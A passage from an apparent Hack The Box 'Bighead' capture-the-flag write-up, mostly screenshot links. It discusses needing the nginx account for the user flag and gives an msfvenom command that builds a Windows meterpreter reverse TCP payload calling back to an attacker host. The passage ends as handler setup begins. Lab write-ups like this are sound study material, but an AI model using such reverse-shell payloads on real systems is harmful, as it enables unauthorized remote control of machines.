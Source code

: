 ![](/images/hackthebox/bighead/88.png)
#### So we probably we need to be `nginx` to get the user flag. And of course we can't access `nginx` directory :
![](/images/hackthebox/bighead/89.png)
#### I wanted to upgrade that reverse shell into `meterpreter` so I had to create the payload first :
`msfvenom -p windows/meterpreter_reverse_tcp LHOST=10.10.xx.xx LPORT=1338 -f exe > m.exe`
![](/images/hackthebox/bighead/90.png)
#### Then I set up the `meterpreter` handler :